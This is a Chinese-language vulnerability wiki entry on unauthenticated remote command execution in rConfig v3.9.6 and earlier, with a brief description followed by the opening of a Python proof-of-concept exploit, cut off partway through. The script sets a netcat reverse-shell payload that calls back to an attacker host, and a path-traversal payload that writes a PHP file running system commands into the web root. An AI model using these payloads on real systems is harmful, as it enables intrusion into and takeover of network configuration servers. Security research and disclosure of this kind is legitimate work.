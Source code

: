 rConfig v3.9.6 远程命令执行
===========================

一、漏洞简介
------------

rConfig是"开源网络设备配置管理实用程序，可对设备进行频繁的配置快照。开源，由Network
Architects构建-我们知道您的需求！"

rConfig远程未经身份验证的RCE中的两个漏洞。一个漏洞允许未经身份验证的用户进行身份验证，另一个漏洞（身份验证后）允许攻击者执行任意代码。

厂商最初的反应非常迅速，并且立刻发布了一个更新版本（v3.9.6），我们最初是在v3.9.5上验证了该漏洞。但是我们发现，v3.9.6版本中同样存在安全漏洞，并将此情况反应给了厂商。目前为止，我们还不知道有没有安全补丁能够解决或缓解这两个漏洞所带来的影响。

二、漏洞影响
------------

rConfig v3.9.6 及其之前版本

三、复现过程
------------

### poc

> rConfig.py 需要修改代码里面的部分内容

![1.png](/Users/aresx/Documents/VulWiki/.resource/rConfigv3.9.6远程命令执行/media/rId25.png)

    import requests

    from requests_toolbelt.multipart.encoder import MultipartEncoder

    import urllib3

    import re

    #from bs4 import BeautifulSoup

     

    urllib3.disable_warnings()

     

    url="https://x.x.x.x/" #change this to fit your URL (adding the last slash)

    payload="nc y.y.y.y 9001 -e /bin/sh"  #change this to whatever payload you want

    payload_rce= "fileName=../www/test.php&code=<%3fphp+echo+system('ls')%3b%3f>&id=3" #if you want to use Method 2 for RCE, use a PHP, urlencoded payload as the value of the code parameter

     

    print("Connecting to: {}".format(url))

    print("Connect back is set to: {}, please launch 'nc -lv 9001'".format(payload))

     

    x = requests.get(url+"login.php", verify=False)

    version = re.search("<p>(.*)<span>", x.text)

    version = version.group(1)
